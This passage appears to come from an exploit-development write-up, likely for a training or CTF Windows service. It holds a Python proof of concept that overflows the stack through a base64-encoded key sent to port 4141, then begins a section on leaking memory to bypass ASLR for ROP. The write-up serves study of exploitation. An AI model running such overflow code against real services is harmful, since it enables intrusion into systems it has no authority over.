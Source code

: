 After doing a bit of basic fuzzing with **python** I came up with the following proof of concept to start work with:

```python
#!/usr/bin/python
import socket, sys, base64
from struct import pack

try:
    server = sys.argv[1]
    port = 4141
   
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    # recv initial menu
    d = s.recv(1024)

    # send option 1 data
    s.send(b'1')
    d = s.recv(1024)

    # key
    buffer = b"A" * 88                  # padding
    buffer += b"B" * 8                  # saved return pointer
    key = base64.b64encode(buffer)

    # send key
    poc_str = b"100-FE9A1-500-A270-0102-" + key
    s.send(poc_str)

    # recv menu
    d = s.recv(1024)

    # send option 2 data
    s.send(b'2')

    s.close()

    print("Done!")
except socket.error:
    print("Could not connect!")
```

# Memory Leak

In order to overcome the ASLR mitigation I needed some way to leak a memory address in the PE module. If I could leak an offset to the module base I could use it to locate ROP gadgets within the PE module. I had already observed a call to `snprintf` earlier, now it was time to do a bit of dynamic analysis and see if I could replay a memory location back to the client.

Using **netcat** again to do a bit of dynamic analysis I set a breakpoint on the following call:


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"